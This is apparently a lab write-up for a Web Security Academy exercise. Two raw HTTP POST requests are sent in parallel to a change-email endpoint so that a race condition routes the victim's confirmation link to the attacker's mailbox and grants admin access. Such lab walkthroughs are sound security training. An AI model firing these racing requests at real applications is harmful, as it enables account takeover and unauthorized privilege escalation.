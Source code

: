 # Single Endpoint Race Condition

The website has a vulnerable change email function, and we know that the email address [`carlos@ginandjuice.shop`](mailto:carlos@ginandjuice.shop) has received the invitation for the admin access.

After a request to change an email address is sent, the confirmation letter is sent to the mailbox. However, with a race condition flaw, we can receive a confirmation link for another mail address on our mailbox. For that, we need to try sending 2 requests in parallel, one for our controlled email, other for victim’s email.

```bash
POST /my-account/change-email HTTP/2
Host: 0a9c00b804e5a3f6840003cc00fd00dc.web-security-academy.net
Cookie: session=QPsdHTgLWtsfk9X7zkceyQb3DwOKSFx7
Content-Length: 69
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9c00b804e5a3f6840003cc00fd00dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9c00b804e5a3f6840003cc00fd00dc.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

email=carlos%40ginandjuice.shop&csrf=hEXtTFRzMyOrOaevaTNYlrEsNylFN0D6
```

```bash
POST /my-account/change-email HTTP/2
Host: 0a9c00b804e5a3f6840003cc00fd00dc.web-security-academy.net
Cookie: session=QPsdHTgLWtsfk9X7zkceyQb3DwOKSFx7
Content-Length: 112
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9c00b804e5a3f6840003cc00fd00dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9c00b804e5a3f6840003cc00fd00dc.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

email=wiener%40exploit-0ab6009a04e0a332849602050140008b.exploit-server.net&csrf=hEXtTFRzMyOrOaevaTNYlrEsNylFN0D6
```

![image.png](Single%20Endpoint%20Race%20Condition%201e9021737a89805db1a9e3d25df839b2/image.png)

Admin access is granted

![image.png](Single%20Endpoint%20Race%20Condition%201e9021737a89805db1a9e3d25df839b2/image%201.png)